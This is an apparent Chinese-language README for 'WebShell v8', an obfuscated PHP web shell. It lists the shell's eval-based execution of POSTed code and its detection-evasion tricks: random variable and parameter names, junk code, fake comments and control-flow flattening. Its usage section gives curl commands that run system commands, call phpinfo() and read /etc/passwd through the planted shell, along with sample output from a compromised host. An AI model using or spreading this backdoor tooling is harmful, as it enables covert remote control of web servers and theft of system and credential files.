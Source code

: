 # WebShell v8 特性说明

## 1. 基础架构

### 1.1 基本结构
- 单文件PHP WebShell
- POST参数处理
- eval直接执行
- base64编码加载

### 1.2 文件特性
- 单一PHP文件
- 随机变量名
- 垃圾代码注入
- 控制流平展

## 2. 核心特性

### 2.1 代码执行
- 使用eval函数执行
- base64解码载入
- POST参数接收
- 直接代码执行

### 2.2 混淆技术
- 随机变量名生成
- 控制流程平展化
- 垃圾代码注入
- 假注释添加

### 2.3 参数处理
- POST方法接收
- 随机参数名
- 支持任意PHP代码
- 无参数验证

## 3. 隐蔽特性

### 3.1 代码混淆
- base64编码载荷
- switch-case控制流
- 随机数控制流程
- while循环包装

### 3.2 伪装技术
- 添加假注释
- 插入无用变量
- 添加死代码
- 随机变量命名

## 4. 使用方法

### 4.1 基本连接
```bash
# 执行系统命令
curl -X POST http://your-domain/webshell.php -d "cmd=system('id');"

# 执行PHP代码
curl -X POST http://your-domain/webshell.php -d "cmd=phpinfo();"

# 文件操作
curl -X POST http://your-domain/webshell.php -d "cmd=echo file_get_contents('/etc/passwd');"


curl -X POST http://172.30.0.2/webshell_2.php -d "BDKDH=system('id');"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4.2 参数说明
- 参数名随机（cmd/x/q/随机5字符）
- 支持任意PHP代码
- 直接eval执行
- POST方法传递

### 4.3 注意事项
- 需要完整PHP代码
- 包含分号结尾
- 注意代码转义
- 避免语法错误

## 5. 版本定位

### 5.1 特点优势
- 基本的混淆能力
- 动态代码生成
- 灵活的代码执行
- 简单的隐蔽性

### 5.2 主要不足
- 无加密传输
- 无权限验证
- 无错误处理
- 易被静态检测 